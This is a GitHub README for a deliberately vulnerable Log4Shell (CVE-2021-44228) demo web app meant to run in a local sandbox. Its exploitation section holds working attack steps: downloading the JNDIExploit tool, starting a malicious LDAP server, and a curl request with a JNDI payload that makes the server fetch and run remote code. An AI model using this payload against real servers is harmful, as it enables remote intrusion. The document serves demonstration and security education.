



# Log4Shell sample web exploit (CVE-2021-44228)

A sample website that shows how easy it is to gain remote access of a server with the use of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) (CVE-2021-44228).

Extends [log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) with a static web page that takes an input and interacts with the vulnerable spring-boot server.

This project was inspired by a [tweet](https://twitter.com/musalbas/status/1469297973704245260) from [@musalbas](https://twitter.com/musalbas) showing different sites affected by this exploit. These sites were patched in a matter of days but anyone could still attack these webservers undetected.



## Running

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

Then go to https://localhost:8080 to view the web page

## Exploitation steps

_Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**._

**Update (Dec 13th)**: _The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine._

Use this [Log4j Vulnerability Tester](https://log4j-tester.trendmicro.com/) by Trend Micro to see that our code is being executed on the vulnerable server:

- Copy the JNDI snapshot that is generated for you by Trend Micro and submit it to the demo webpage
  
- Go back to the Trend Micro site and see that our server is vulnerable to Log4Shell
  

Or for full access to the target server, use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server:

```bash

wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip

unzip JNDIExploit.v1.2.zip

java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888

```

- Then, trigger the exploit using:

```bash

# will execute 'touch /tmp/pwned'

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

```

- Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```

[+] LDAP Server Start Listening on 1389...

[+] HTTP Server Start Listening on 8888...

[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo

[+] Paylaod: command

[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload

[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class

[+] New HTTP Request From /192.168.1.143:50119 /Exploitjkk87OnvOH.class

[+] Receive ClassRequest: Exploitjkk87OnvOH.class

[+] Response Code: 200

```

- To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```

$ docker exec vulnerable-app ls /tmp

...

pwned

...

```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/christophetd/log4shell-vulnerable-app

## Contributors

[@enzdev](https://twitter.com/enzdev)
